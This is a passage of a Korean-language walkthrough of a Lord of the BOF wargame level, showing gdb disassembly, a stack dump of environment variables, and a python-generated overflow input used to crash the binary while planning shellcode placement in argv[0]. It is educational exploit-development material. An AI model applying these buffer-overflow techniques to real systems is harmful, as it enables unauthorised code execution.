 ```
0x804861f <main+287>:	call   0x80483f0 <strlen>
0x8048624 <main+292>:	add    %esp,4
0x8048627 <main+295>:	mov    %eax,%eax
0x8048629 <main+297>:	push   %eax
0x804862a <main+298>:	push   0
0x804862c <main+300>:	mov    %eax,DWORD PTR [%ebp+12]
0x804862f <main+303>:	add    %eax,4
0x8048632 <main+306>:	mov    %edx,DWORD PTR [%eax]
0x8048634 <main+308>:	push   %edx
0x8048635 <main+309>:	call   0x8048430 <memset>
0x804863a <main+314>:	add    %esp,12
0x804863d <main+317>:	leave
0x804863e <main+318>:	ret
0x804863f <main+319>:	nop
```
여기서 부터 재밌는게 이 문제는 argv[0]에 쉘 코드를 입력하여, 풀어야 한다.
b *main+3 정도에 브프를 걸고 x/1000s $esp 시
특정 메모리 영역에서 부터 환경 변수가 노출되게 된다.
```
0xbffffe29:	 "i686"
0xbffffe2e:	 "/tmp/troll"
0xbffffe39:	 "123"
0xbffffe3d:	 "PWD=/home/orge"
0xbffffe4c:	 "REMOTEHOST=192.168.248.1"
0xbffffe65:	 "HOSTNAME=localhost.localdomain"
0xbffffe84:	 "LESSOPEN=|/usr/bin/lesspipe.sh %s"
---Type <return> to continue, or q <return> to quit---
0xbffffea6:	 "USER=orge"
0xbffffeb0:	 "LS_COLORS="
0xbffffebb:	 "MACHTYPE=i386-redhat-linux-gnu"
0xbffffeda:	 "MAIL=/var/spool/mail/orge"
0xbffffef4:	 "INPUTRC=/etc/inputrc"
0xbfffff09:	 "BASH_ENV=/home/orge/.bashrc"
0xbfffff25:	 "LANG=en_US"
0xbfffff30:	 "LOGNAME=orge"
0xbfffff3d:	 "SHLVL=1"
0xbfffff45:	 "SHELL=/bin/bash2"
0xbfffff56:	 "USERNAME="
0xbfffff60:	 "HOSTTYPE=i386"
0xbfffff6e:	 "OSTYPE=linux-gnu"
0xbfffff7f:	 "HISTSIZE=1000"
0xbfffff8d:	 "TERM=xterm-256color"
0xbfffffa1:	 "HOME=/home/orge"
0xbfffffb1:	 "PATH=/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/orge/bin"
0xbffffff1:	 "/tmp/troll"
```
이 주소는 egghunter 함수에 의해서 초기화가 된다. 확인을 해보면 아래와 같다.

```
(gdb) r `python -c 'print "A"*47+"\xbf"'`
Starting program: /tmp/troll `python -c 'print "A"*47+"\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```
이런식으로 segmentation fault를 유도하고 다시 메모리 확인해보자.
